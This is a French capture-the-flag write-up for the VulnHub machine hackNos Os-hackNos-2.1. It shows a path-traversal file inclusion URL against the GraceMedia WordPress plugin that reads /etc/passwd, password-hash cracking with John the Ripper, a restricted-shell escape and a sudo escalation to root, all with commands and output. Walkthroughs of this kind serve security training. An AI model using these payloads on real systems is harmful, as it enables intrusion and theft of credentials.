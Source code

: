 ```yaml
---
title: "Solution du CTF hackNos: Os-hackNos-2.1 de VulnHub"
tags: [CTF,VulnHub]
---
```


[hackNos: Os-hackNos-2.1](https://vulnhub.com/entry/hacknos-os-hacknos-21,403/) est un CTF créé par [Rahul Gehlaut](https://twitter.com/rahul_gehlaut) et disponible sur *VulnHub*.

## LFI made easy

`Nmap` a la bonté de nous trouver un dossier intéressant sur le serveur web :

```
Nmap scan report for 192.168.56.220
Host is up (0.00055s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /tsweb/: Remote Desktop Web Connection
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

Contrairelent à ce qu'on pourrait immaginer on y trouve un Wordpress.

Un petit coup d'œil au code source montre l'utilisation d'un plugin :

```html
<script type='text/javascript' src='http://192.168.56.220/tsweb/wp-content/plugins/gracemedia-media-player/jwplayer/jwplayer.html5.js?ver=5.3'></script>
<script type='text/javascript' src='http://192.168.56.220/tsweb/wp-content/plugins/gracemedia-media-player/jwplayer/jwplayer.js?ver=5.3'></script>
```

Une faille d'inclusion existe pour ce plugin :

[WordPress Plugin GraceMedia Media Player 1.0 - Local File Inclusion - PHP webapps Exploit](https://www.exploit-db.com/exploits/46537)

On essaye aussitôt de lire `/etc/passwd` et le résultat dépasse nos espérances :

```
http://192.168.56.220/tsweb/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd
```

On trouve en effet un hash dans le fichier :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
rohit:x:1000:1000:hackNos:/home/rohit:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
flag:$1$flag$vqjCxzjtRc7PofLYS2lWf/:1001:1003::/home/flag:/bin/rbash
```

`JtR` trouve rapidement le mot de passe correspondant :

```console
$ john hashes.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Warning: Only 30 candidates buffered for the current salt, minimum 48 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:./password.lst
Enabling duplicate candidate password suppressor
topsecret        (flag)     
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Les plus attentifs auront remarqué que l'utilisateur `flag` a son shell défini à `rshell` donc un shell restreint.

Les restrictions semblent assez légères, j'ai juste lancé `sh`, écrasé la variable `SHELL` et relancé `bash` :

```console
flag@hacknos:/$ export SHELL=/bin/bash
-rbash: SHELL: readonly variable
flag@hacknos:/$ /bin/bash
-rbash: /bin/bash: restricted: cannot specify `/' in command names
flag@hacknos:/$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
flag@hacknos:/$ sh
$ export SHELL=/bin/bash
$ bash
flag@hacknos:/$ env
SSH_CONNECTION=192.168.56.1 58684 192.168.56.220 22
LANG=en_US.UTF-8
XDG_SESSION_ID=1
USER=flag
PWD=/
HOME=/home/flag
SSH_CLIENT=192.168.56.1 58684 22
XDG_DATA_DIRS=/usr/local/share:/usr/share:/var/lib/snapd/desktop
SSH_TTY=/dev/pts/0
MAIL=/var/mail/flag
SHELL=/bin/bash
TERM=xterm-256color
SHLVL=2
LOGNAME=flag
XDG_RUNTIME_DIR=/run/user/1001
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
_=/usr/bin/env
```

J'ai ensuite récupéré les identifiants de BDD dans la config Wordpress et dumpé la table des utilisateurs :

```sql
mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+-----------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email            | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-----------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | user       | $P$B.O0cLMNmn7EoX.JMHPnNIPuBYw6S2/ | user          | rahulgehlaut@mail.com |          | 2019-11-17 17:56:53 |                     |           0 | user         |
+----+------------+------------------------------------+---------------+-----------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)
```

Le hash ne semblant pas se casser, j'ai fouillé dans le système, notamment dans `/var/backups` :

```console
flag@hacknos:/var/backups$ ls passbkp/
total 12K
drwxr-xr-x 2 root root 4.0K Nov 17  2019 .
drwxr-xr-x 3 root root 4.0K May 29 09:51 ..
-rw-r--r-- 1 root root   32 Nov 17  2019 md5-hash
flag@hacknos:/var/backups$ cat passbkp/md5-hash 
$1$rohit$01Dl0NQKtgfeL08fGrggi0
```

Ce hash se casse avec `rockyou`, il s'agit du clair `!%hack41`.

À partir du compte `rohit` on peut alors passer `root` :

```console
flag@hacknos:/tmp$ su rohit
Password: 
rohit@hacknos:/tmp$ sudo -l
[sudo] password for rohit: 
Matching Defaults entries for rohit on hacknos:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rohit may run the following commands on hacknos:
    (ALL : ALL) ALL
rohit@hacknos:/tmp$ sudo su
root@hacknos:/tmp# cd /root
root@hacknos:~# ls
root.txt
root@hacknos:~# cat root.txt 
 _______                         __              __  __     #
/       \                       /  |            /  |/  |    #
$$$$$$$  |  ______    ______   _$$ |_          _$$ |$$ |_   #
$$ |__$$ | /      \  /      \ / $$   |        / $$  $$   |  #
$$    $$< /$$$$$$  |/$$$$$$  |$$$$$$/         $$$$$$$$$$/   #
$$$$$$$  |$$ |  $$ |$$ |  $$ |  $$ | __       / $$  $$   |  # 
$$ |  $$ |$$ \__$$ |$$ \__$$ |  $$ |/  |      $$$$$$$$$$/   #
$$ |  $$ |$$    $$/ $$    $$/   $$  $$/         $$ |$$ |    #
$$/   $$/  $$$$$$/   $$$$$$/     $$$$/          $$/ $$/     #
#############################################################                                                          
                                                          
#############################################################                                                          
MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Blog : www.hackNos.com

Author : Rahul Gehlaut

linkedin : https://www.linkedin.com/in/rahulgehlaut/
#############################################################
```
